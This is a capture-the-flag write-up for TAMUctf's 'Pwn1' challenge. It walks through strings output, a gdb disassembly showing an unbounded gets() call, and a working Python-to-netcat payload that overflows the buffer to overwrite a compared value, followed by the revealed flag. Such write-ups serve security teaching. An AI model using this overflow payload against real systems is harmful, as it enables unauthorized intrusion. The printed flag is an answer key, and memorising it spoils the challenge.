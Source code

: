 # Pwn1

## Points
384

## Description
nc pwn.tamuctf.com 4321

Difficulty: easy

[pwn1](https://tamuctf.com/files/b804e1ab7d43ff479292094d9ec64526/pwn1)

## Solution
Let's find out what strings are inside `strings pwn1`. Notice
```
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
```
From that we can deduce the answers for the first two questions. But what about the secret?

Let's debug the program in `gdb` until it asks us to enter the third answer.
```
   0x565558a3 <main+298>:	sub    esp,0xc
   0x565558a6 <main+301>:	lea    eax,[ebp-0x3b]
   0x565558a9 <main+304>:	push   eax
=> 0x565558aa <main+305>:	call   0x56555520 <gets@plt>
   0x565558af <main+310>:	add    esp,0x10
   0x565558b2 <main+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
   0x565558b9 <main+320>:	jne    0x565558c2 <main+329>
   0x565558bb <main+322>:	call   0x565556fd <print_flag>
```
The address for storing our input is `ebp-0x3b`. The address which will be compared in `cmp` instruction is `ebp-0x10`. That corresponds to index `0x3b-0x10 = 43` in our input. The `DWORD = int32` value must be equal to `0xdea110c8`. In little-endian that's bytes `0xc8 0x10 0xa1 0xde`.
```sh
# python -c "print('Sir Lancelot of Camelot'); print('To seek the Holy Grail.'); print('a'*43 + '\xc8\x10\xa1\xde')" | nc pwn.tamuctf.com 4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
```
Note that if I tried this with [netcat in Windows](https://eternallybored.org/misc/netcat/), it didn't work. The special characters were not passed correctly.

## Flag
`gigem{34sy_CC428ECD75A0D392}`